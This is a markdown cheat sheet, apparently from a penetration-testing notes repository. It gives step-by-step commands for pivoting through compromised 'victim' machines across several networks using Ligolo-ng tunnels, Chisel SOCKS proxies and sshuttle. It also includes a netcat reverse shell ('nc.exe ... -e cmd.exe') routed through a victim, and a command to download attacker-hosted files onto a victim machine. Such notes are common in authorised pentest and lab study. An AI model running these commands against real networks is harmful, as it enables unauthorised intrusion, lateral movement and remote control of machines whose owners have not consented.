

# Pivot 

Here we will look at some ways we can use to pivot within a network and thus be able to jump to other machines.



## Ligolo-ng

**Network 1**
````
- Attacker Machine -
$ ./server -selfcert
$ sudo ip tuntap add user kali mode tun <ligolo>
$ sudo ip link set <ligolo> up

- Victim 1 (PC 1) -
./agent -connect <IP-Attacker>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session1>
(Ligolo): Type ifconfig to see the IP of Network 1
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo1>
(Ligolo): Start
````

**Network 2**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-double>
$ sudo ip link set <ligolo-double> up
On <session1> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 2 (PC 2) -
> agent.exe -connect <IP-Victim1(PC1)>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session2>
(Ligolo): Type ifconfig to see the IP of Network 2
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-double>
On <session1> (Ligolo2): tunnel_start --tun ligolo-double
````

**Network 3**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-triple>
$ sudo ip link set <ligolo-triple> up
On <session2> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 3 (PC 3) -
> agent.exe -connect <IP-Victim2(PC2)>:11601 -ignore-cert (IP of Second Machine)

- Attacker Machine -
(Ligolo): Type session and select the <session3>
(Ligolo): Type ifconfig to see the IP of Network 3
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-triple>
On <session3> (Ligolo): tunnel_start --tun ligolo-triple
````

The process is the same for other networks.

**Reverse Shell and Transfer Files**

The process we are going to see here can be applied to any machine on any network.
Imagine that we want to obtain a reverse shell from Victim 3 (PC3).
````
- Attacker Machine -
$ nc -lvp <port-reverse>
On <session2> (Ligolo): listener_add --addr 0.0.0.0:<port-reverse> --to 127.0.0.1:<port-reverse> --tcp

- Victim 3 (PC 3) -
nc.exe <IP-Victim2(PC2)> <port-reverse> -e cmd.exe 
````

Imagine you want to transfer a file from the <Attacker-Machine> to Victim 4 (PC4).
````
- Attacker Machine -
$ python3 -m http.server <port-server>
On <session3> (Ligolo): listener_add --addr 0.0.0.0:<port-server> --to 127.0.0.1:<port-server> --tcp

- Victim 4 (PC 4) -
> Invoke-WebRequest -Uri http://<IP-Victim3(PC3)>:<port-server>/<file> -OutFile <file>
````

## Chisel 

We can also do this with chisel using socks5.
````
- Attacker Machine -
$ ./chisel server -v -p <PORT> --reverse
$ ./chisel server -v --reverse

- Victim 1 (PC 1) -
> chisel_windows.exe client <IP-Attacker>:<PORT> R:socks

- Attacker Machine -
$ edit /etc/proxychains.conf -> sock5 (127.0.0.1 1080)
$ proxychains ping <Netowrk1-Machines>

Tip:
$ proxychains /bin/bash
Everything done within this shell automatically goes through proxychains and the tunnel created.
You no longer need to add proxychains at the beginning.
````

## SSH Pivoting with Sshuttle
````
$ sudo apt-get install sshuttle
$ sudo sshuttle -r <user>@<IP-Victim1> <IP-Network1>/<subnet> -v 
````
With this command, sshuttle creates an entry in our iptables to redirect all traffic to the <IP-Network1>/<subnet> network through the pivot host.
